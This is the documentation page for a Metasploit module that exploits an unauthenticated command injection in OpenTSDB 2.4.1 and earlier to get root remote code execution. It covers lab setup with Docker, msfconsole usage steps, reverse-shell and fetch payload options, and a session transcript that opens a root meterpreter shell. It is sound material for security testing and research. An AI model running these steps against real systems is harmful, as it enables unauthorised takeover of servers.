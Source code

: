 ## Vulnerable Application
This module exploits an unauthenticated command injection vulnerability in OpenTSDB
through 2.4.1 (CVE-2023-36812/CVE-2023-25826) in order to achieve remote code execution as the root user.

The module first attempts to obtain the OpenTSDB version via the api. If the version is 2.4.1 or lower,
the module performs additional checks to obtain the configured metrics and aggregators.
It then randomly selects one metric and one aggregator and uses those to instruct the target server to plot a graph.
As part of this request, the key is set to the payload, which will then be executed by the target if the latter is vulnerable.

This module has been successfully tested against OpenTSDB version 2.4.1 running in Docker.

## Installation Information
### Manual Installation
For a manual installation, you can follow the official installation instructions [here](http://opentsdb.net/docs/build/html/installation.html).
This can be annoying though, so using Docker is recommended.

### Docker Installation
For version 2.4.0, you can use the vulhub Docker image and follow the installation instructions [here](https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2020-35476).
That image was created for CVE-2020-35476, an older vulnerability in OpenTSDB through 2.4.0.

For any other version, you could leverage the vulhub image for OpenTSDB 2.4.0 and edit it to install the version you want. This approach was followed for 2.4.1.

Grab the vulhub OpenTSDB 2.4.0 `Dockerfile` and `docker-entrypoint.sh` from [here](https://github.com/vulhub/vulhub/tree/master/base/opentsdb/2.4.0) and store them in a dedicated directory.
In the `Dockerfile`, replace all instances for `2.4.0` with your desired version, e.g. `2.4.1`.
No edits are necessary for `docker-entrypoint.sh`.
Create a `docker-compose.yml` file with the following contents:
```yml
version: '2'
services:
  opentsdb:
    build: ./path-to-your-dockerfile-directory
    ports:
      - "4242:4242"
```

Example file structure:
```
wynter@wynter-pc:~/dev/opentsdb$ ls -lR
.:
total 8
-rw-rw-r-- 1 wynter wynter   86 Sep  1 10:55 docker-compose.yml
drwxrwxr-x 2 wynter wynter 4096 Sep  1 10:54 docker_file

./docker_file:
total 8
-rw-rw-r-- 1 wynter wynter 927 Sep  1 10:54 Dockerfile
-rw-rw-r-- 1 wynter wynter 359 Sep  1 10:35 docker-entrypoint.sh

wynter@wynter-pc:~/dev/opentsdb$ cat docker-compose.yml
version: '2'
services:
  opentsdb:
    build: ./docker_file
    ports:
      - "4242:4242"
```

Finally, build and run the image via `docker-compose` by running the below command in the directory with you `docker-compose.yml` file:
```bash
docker-compose up -d
```

After a few seconds, OpenTSDB will be available on port 4242. No additional configuration is required.

## Verification Steps
1. Start `msfconsole`
1. Do: `use exploit/linux/http/opentsdb_key_cmd_injection`
1. Do: `set RHOSTS [IP]`
1. Do: `set LHOST [IP]`
1. Do: `set SRVHOST [IP]`
1. Do: `set FETCH_SRVHOST [IP]`
1. Do: `exploit`

## Options
### TARGETURI
The base path to OpenTSDB. The default value is `/`.

## Targets
```
Id  Name
--  ----
0   Linux
```

## Scenarios
### OpenTSDB 2.4.1 - Linux target
```
msf exploit(linux/http/opentsdb_key_cmd_injection) > options

Module options (exploit/linux/http/opentsdb_key_cmd_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      4242             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to OpenTSDB
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      yr               no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8081             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST                                yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux



View the full module info with the info, or info -d command.

msf exploit(linux/http/opentsdb_key_cmd_injection) > run RHOSTS=127.0.0.1 LHOST=192.168.112.1

[*] Started reverse TCP handler on 192.168.112.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is OpenTSDB version 2.4.1
[*] Identified 3 configured metrics. Using metric sys.cpu.idle
[*] Identified 35 configured aggregators. Using aggregator none
[*] Executing the payload
[*] Sending stage (3045380 bytes) to 192.168.112.1
[*] Meterpreter session 9 opened (192.168.112.1:4444 -> 192.168.112.1:61423) at 2023-09-08 14:32:05 +0100

meterpreter > getuid
Server username: root
meterpreter > pwd
/usr/share/opentsdb
```
